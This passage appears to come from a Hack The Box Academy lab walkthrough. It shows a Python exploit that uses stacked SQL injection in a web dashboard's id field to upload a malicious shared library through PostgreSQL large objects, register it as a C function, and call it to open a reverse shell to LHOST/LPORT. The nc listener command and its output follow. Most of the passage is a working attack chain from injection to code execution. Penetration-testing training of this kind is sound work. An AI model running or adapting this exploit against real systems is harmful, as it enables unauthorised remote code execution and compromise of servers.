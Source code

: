 ```python
    print("[*] Logged in")
else:
    print("Could not log in. Check the credentials!\nUse the same password when you reset it for the admin user.")
    exit(1)

def oracle(s, q):
    r = s.post(
        f"{BASE_URL}/dashboard/edit",
        headers = {"Content-Type":"application/x-www-form-urlencoded"},
        data = f"username={USERNAME}&password={PASSWORD}&title=Hackthebox&id={quote_plus(q)}"
    )
    return "Password edited!" in r.text

with open("pg_rev_shell.so","rb") as f:
    raw = f.read()

loid = random.randint(50000,60000)
oracle(s, f"1;SELECT lo_create({loid})--")
print(f"[*] Created large object with ID: {loid}")

for pageno in range(math.ceil(len(raw)/2048)):
    page = raw[pageno*2048:pageno*2048+2048]
    print(f"[*] Uploading Page: {pageno}, Offset: {pageno*2048}")
    oracle(s, f"1;SELECT lo_put({loid}, {pageno*2048}, decode($${page.hex()}$$,$$hex$$))--")

query  = f"1;SELECT lo_export({loid}, $$/tmp/pg_rev_shell.so$$);"
query += f"SELECT lo_unlink({loid});"
query += "DROP FUNCTION IF EXISTS rev_shell;"
query += "CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS $$/tmp/pg_rev_shell$$, $$rev_shell$$ LANGUAGE C STRICT;"
query += f"SELECT rev_shell($${LHOST}$$, {LPORT})--"
oracle(s, query)
```

Before running the exploit, students need to start a listener with `nc`, setting the port the same as the one in the script before:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-ahuvwy1i3u]─[~]
└──╼ [★]$ nc -nvlp 7331

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7331
Ncat: Listening on 0.0.0.0:7331
```

Subsequently, after running the exploit and checking the `nc` listener, students will notice that the reverse shell connection has been successfully established:
